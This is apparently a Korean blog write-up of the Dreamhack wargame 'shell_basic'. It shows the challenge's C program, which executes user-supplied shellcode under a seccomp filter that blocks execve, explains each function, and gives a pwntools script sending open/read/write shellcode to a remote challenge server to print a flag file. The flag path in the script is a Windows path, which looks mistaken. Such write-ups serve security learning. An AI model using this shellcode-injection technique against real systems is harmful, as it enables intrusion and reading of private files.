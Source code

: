 ```yaml
---
layout: single
title:  "Wargame : shell_basic"
categories: 정보보안
tag: [python, pwn, hacking]
toc: true
author_profile: true
---
```


<head>
  <style>
    table.dataframe {
      white-space: normal;
      width: 100%;
      height: 240px;
      display: block;
      overflow: auto;
      font-family: Arial, sans-serif;
      font-size: 0.9rem;
      line-height: 20px;
      text-align: center;
      border: 0px !important;
    }

    table.dataframe th {
      text-align: center;
      font-weight: bold;
      padding: 8px;
    }

    table.dataframe td {
      text-align: center;
      padding: 8px;
    }

    table.dataframe tr:hover {
      background: #b8d1f3; 
    }

    .output_prompt {
      overflow: auto;
      font-size: 0.9rem;
      line-height: 1.45;
      border-radius: 0.3rem;
      -webkit-overflow-scrolling: touch;
      padding: 0.8rem;
      margin-top: 0;
      margin-bottom: 15px;
      font: 1rem Consolas, "Liberation Mono", Menlo, Courier, monospace;
      color: $code-text-color;
      border: solid 1px $border-color;
      border-radius: 0.3rem;
      word-break: normal;
      white-space: pre;
    }

  .dataframe tbody tr th:only-of-type {
      vertical-align: middle;
  }

  .dataframe tbody tr th {
      vertical-align: top;
  }

  .dataframe thead th {
      text-align: center !important;
      padding: 8px;
  }

  .page__content p {
      margin: 0 0 0px !important;
  }

  .page__content p > strong {
    font-size: 0.8rem !important;
  }

  </style>
</head>


### C 코드 분석


```c

#include <fcntl.h>

#include <seccomp.h>

#include <stdio.h>

#include <stdlib.h>

#include <string.h>

#include <sys/prctl.h>

#include <unistd.h>

#include <sys/mman.h>

#include <signal.h>



void alarm_handler() {

    puts("TIME OUT");

    exit(-1);

}



void init() {

    setvbuf(stdin, NULL, _IONBF, 0);

    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);

    alarm(10);

}



void banned_execve() {

  scmp_filter_ctx ctx;

  ctx = seccomp_init(SCMP_ACT_ALLOW);

  if (ctx == NULL) {

    exit(0);

  }

  seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(execve), 0);

  seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(execveat), 0);



  seccomp_load(ctx);

}



void main(int argc, char *argv[]) {

  char *shellcode = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);   

  void (*sc)();

  

  init();

  

  banned_execve();



  printf("shellcode: ");

  read(0, shellcode, 0x1000);



  sc = (void *)shellcode;

  sc();

}

```


#### init() 함수 분석


입출력 버퍼를 비활성화 및 시간 초과를 검사한다.



위에서 정의하였던 alarm_handler()함수를 이용하여 10초 타이머를 설정한다.


#### banned_execve() 함수 분석


seccomp 필터 초기화 후, execve()함수와 execveat()함수를 차단하는 규칙을 지정한다.


#### main() 함수 분석


mmap함수로, 메모리를 할당한 다음, 사용자로부터 쉘 코드를 입력받아 할당된 메모리에 저장한다.



여기서 쉘 코드는 포인터로 변환되어 호출된다.



banned_execve()함수에서 execve()함수와 execveat()함수를 차단하였기 때문에 일반적인 경로와 인자를 지정하여 프로그램을 실행할 수 없다.


### pwn 코드 작성


```python

from pwn import *



p = remote('host3.dreamhack.games', 18037)

# 원격 서버를 대상으로 익스플로잇을 진행 → remote() 함수 사욛



context.arch = 'amd64'

# 익스플로잇 대상 아키텍쳐는 amd64



payload = ''

payload += shellcraft.open('C:/Users/dst78/Downloads/shell_basic/flag_name_is_loooooong')

payload += shellcraft.read('rax', 'rsp', 100)

payload += shellcraft.write(1, 'rsp', 100)

# 페이로드를 문제에서 지정한 경로로 지정

# 스켈레톤 코드는 open, read, write 순서이므로 해당 순서를 따라 코드 작성

# 파일의 위치는 문제에서 지정하였으므로 바로 open

# read 함수는 rax에 저장된 정보를 통해 syscall을 수행, rsp스택의 시작주소 기입, 크기는 상관 x

# write 또한 마찬가지로 작성



p.sendline(asm(payload))

p.interactive()

```

![image.png](/image/shell_basic_shellcode.png)

